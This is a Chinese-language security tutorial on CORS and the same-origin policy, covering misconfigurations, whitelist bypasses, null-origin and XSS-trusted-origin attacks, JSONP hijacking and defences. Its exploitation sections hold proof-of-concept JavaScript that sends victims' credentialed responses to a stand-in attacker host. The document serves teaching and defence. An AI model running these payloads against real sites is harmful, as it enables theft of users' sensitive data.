

- [CORS(Cross-origin resource sharing)](#corscross-origin-resource-sharing)
  - [跨域请求](#跨域请求)
  - [同源策略(SOP)](#同源策略sop)
  - [跨域资源共享（CORS）](#跨域资源共享cors)
    - [CORS预检](#cors预检)
    - [客户端指定的Access-Control-Allow-Origin头](#客户端指定的access-control-allow-origin头)
    - [Origin headers白名单绕过](#origin-headers白名单绕过)
    - [特殊字符](#特殊字符)
    - [null origin Header](#null-origin-header)
    - [存在XSS的受信任源](#存在xss的受信任源)
    - [绕过TLS加密](#绕过tls加密)
  - [防御](#防御)
  - [其它跨域解决方案](#其它跨域解决方案)
    - [通过jsonp跨域](#通过jsonp跨域)
      - [jsonp劫持](#jsonp劫持)
      - [修复方案](#修复方案)
    - [document.domain + iframe跨域](#documentdomain--iframe跨域)
    - [location.hash + iframe](#locationhash--iframe)
    - [window.name + iframe跨域](#windowname--iframe跨域)
    - [postMessage跨域](#postmessage跨域)
    - [nginx代理跨域](#nginx代理跨域)
    - [nodejs中间件代理跨域](#nodejs中间件代理跨域)
    - [WebSocket协议跨域](#websocket协议跨域)
- [参考](#参考)
# CORS(Cross-origin resource sharing)
## 跨域请求
跨域是指一个域下的文档或脚本试图去请求另一个域下的资源.
1. 资源跳转：A链接、重定向、表单提交.
2. 资源嵌入：`<link>、<script>、、<frame>`等dom标签，还有样式中background:url()、@font-face()等文件外.
3. 脚本请求：js发起的ajax请求（XMLHttpRequest或Fetch）、dom和js对象的跨域操作等.
## 同源策略(SOP)
同源策略/SOP（Same origin policy）是一种约定,所谓同源是指"**协议+域名+端口**"三者相同,即便两个不同的域名指向同一个ip地址,也非同源.

同源策略限制不同源网站之中以下几种行为：

1. Cookied、LocalStorage 和 IndexDB 无法读取
2. DOM 和 JS对象无法获得
3. AJAX请求不能发送

## 跨域资源共享（CORS）
跨源资源共享（CORS）是网站用来使Web浏览器放宽同源策略的技术，从而实现不同网站之间的跨域通信.  

普通跨域请求:  
服务端设置
```
Access-Control-Allow-Origin: https://www.a.com  
```
这将允许https://www.a.com访问自己页面的内容,但默认情况下无法通过CORS请求凭据(cookie,csrf令牌).  
如果需要携带凭据访问的话则需要服务器启用以下Header.  
```
Access-Control-Allow-Credentials: true
```  

CORS不支持使用通配符来匹配所有子域,如
```
Access-Control-Allow-Origin: *.a.com
```  
该方式是不支持的,唯一支持的通配符是只能接受全部站点.
```
Access-Control-Allow-Origin: *
```  
且通配符`*`和Header`Access-Control-Allow-Credentials: true`不能共存  
### CORS预检
在CORS规范中还有一个要求,在某些可能对服务器产生影响的请求方法发送前,浏览器需要先发送一个OPTIONS请求携带相关请求信息来确定服务器是否接受后续该要发送的请求,只有同时满足以下条件的请求才不需要先发送OPTIONS请求.  
1. 允许的HTTP请求方法: GET,HEAD,POST.  
2. 允许HEADER字段: Accept,Accept-Language,Content-Language,Content-Type,Range,其余Header被视为不安全的Header.  
3. 允许的Content-Type: text/plain,multipart/form-data,application/x-www-form-urlencoded.    

任何不同时满足以上条件的跨域请求都会需要先发送OPTIONS请求来确定服务器是否接受后续的请求.
### 客户端指定的Access-Control-Allow-Origin头 
Origin头:当发生跨域请求，或者同域时发送post请求，就会自动携带origin请求头,请求头origin表明了请求来自于哪个站点。包括且仅仅包括协议、域名和端口，并不包含任何路径信息.  

一些应用因为要维护大量的白名单域名与自己进行通信,这时候则会采取直接从请求的`Origin`Header来自动设置`Access-Control-Allow-Origin`而没有任何检查.  
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```  
如果响应包含任何敏感信息，如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来获取这些信息。  
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```  
### Origin headers白名单绕过
因为CORS不支持`*.domain`的方式来匹配,有些应用会建立一个白名单,然后将请求中的`Origin`Header字段与白名单内的域名进行匹配,如果在白名单内则自动设置对应的`Access-Control-Allow-Origin`头.  
而白名单的实现方式则可能会造成绕过,如往往只匹配url开头或者结尾,或者使用一些不严重的正则表达式.  
只匹配`main.com`结尾->`evilmain.com`.  
只匹配`main.com`开头->`main.com.evil.com`
### 特殊字符
使用一些特殊字符绕过正则表达式检测,比如`{`,`_`.
  
`victimdomain.com{.attacker.com`浏览器实际解析时为`attacker.com`.  

https://www.corben.io/advanced-cors-techniques/  
https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397
### null origin Header
Origin header头支持值为null,在以下情况可能会发送null Origin Header.  
1. 跨域重定向.
2. 序列化数据请求.
3. 使用file:协议的请求
4. 沙盒跨域请求.
有些应用为了支持本地开发时方便,也会将null值加入白名单中,这导致可以通过null origin Header来跨域读取数据.  
通过沙盒的iframe标签发送带null origin Header的跨域请求.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
### 存在XSS的受信任源
当正确配置CORS名单时,如果白名单中的域存在XSS,那么则可以利用存在XSS的网站通过CORS来获取网站的敏感数据.
```
https://subdomain.vulnerable-website.com/?xss=<script>cors poc</script>
```
### 绕过TLS加密
如果应用使用https,但白名单允许使用http协议的网站进行交互,则可能导致中间人攻击.
1. 攻击者拦截受害者的任意http请求,并将其重定向到白名单内的http协议网站.
2. 拦截到白名单http协议网站的请求,在响应中注入对https应用的CORS请求.
3. 浏览器请求使用https的应用获取敏感数据,因为来源在白名单中,敏感数据被返回.
4. 攻击者收到响应中的敏感数据.
## 防御
1. 正确配置跨域请求
如果 Web 资源包含敏感信息，则应在标头中正确指定源。Access-Control-Allow-Origin
2.仅允许受信任的站点
这似乎是显而易见的，但标头中指定的来源应仅是受信任的站点。特别是，动态反映来自跨源请求的源而无需验证是很容易被利用的，应避免使用。Access-Control-Allow-Origin
3.避免将空列入白名单
避免使用标头 。来自内部文档和沙盒请求的跨源资源调用可以指定源。应根据专用服务器和公共服务器的受信任源正确定义 CORS 标头。Access-Control-Allow-Origin: nullnull
4.避免在内部网络中使用通配符
避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅信任网络配置来保护内部资源是不够的。
5.CORS 不能替代服务器端安全策略
CORS定义了浏览器行为，绝不能替代服务器端对敏感数据的保护 - 攻击者可以直接伪造来自任何受信任来源的请求。因此，除了正确配置的 CORS 之外，Web 服务器还应继续对敏感数据（如身份验证和会话管理）应用保护。
## 其它跨域解决方案
### 通过jsonp跨域
Jsonp(JSON with Padding) 是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。它利用的是script标签的 src 属性不受同源策略影响的特性，使网页可以得到从其他来源动态产生的 json 数据，因此可以用来实现跨域读取数据.  
#### jsonp劫持
当网站通过 JSONP 方式传递用户敏感信息时，攻击者可以伪造 JSONP 调用页面，诱导被攻击者访问来达到窃取用户信息的目的；jsonp 数据劫持就是攻击者获取了本应该传给网站其他接口的数据.  
其实就是客户端A需要访问B的数据时,先在本地写一个回调函数用于处理获取的数据,然后访问B提供的jsonp接口,并在callback参数填写本地的回调函数,这样B返回信息后会自动调用callback函数,如果整个过程中缺少安全认证的话则可以用类似于CSRF的方式诱导受害者访问恶意页面后获取到其敏感的json数据.
```javascript
function myData(data) {
    console.log('[!] DATA: ', data);
}
<script src="http://root.cool/userinfo?fn=myData"></script>
```
#### 修复方案
1. 接受请求时检查referer来源；
2. 在请求中添加token并在后端进行验证；
3. 严格过滤 callback 函数名及 JSON 里数据的输出。
4. 设置SameSite: (https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie/SameSite)  

SameSite 是 HTTP 响应头 Set-Cookie 的属性之一。它允许您声明该 Cookie 是否仅限于第一方或者同一站点上下文。
SameSite 接受下面三个值：
* Lax:Cookies 允许与顶级导航一起发送，并将与第三方网站发起的 GET 请求一起发送。这是浏览器中的默认值。

* Strict:Cookies 只会在第一方上下文中发送，不会与第三方网站发起的请求一起发送。

* None:Cookie 将在所有上下文中发送，即允许跨站发送。

以前 None 是默认值，但最近的浏览器版本将 Lax 作为默认值，以便对某些类型的跨站请求伪造(CSRF)攻击具有相当强的防御能力。
### document.domain + iframe跨域
### location.hash + iframe
### window.name + iframe跨域
### postMessage跨域
### nginx代理跨域
### nodejs中间件代理跨域
### WebSocket协议跨域

# 参考

https://segmentfault.com/a/1190000011145364  
https://portswigger.net/web-security/cors  
http://drops.xmd5.com/static/drops/papers-6630.html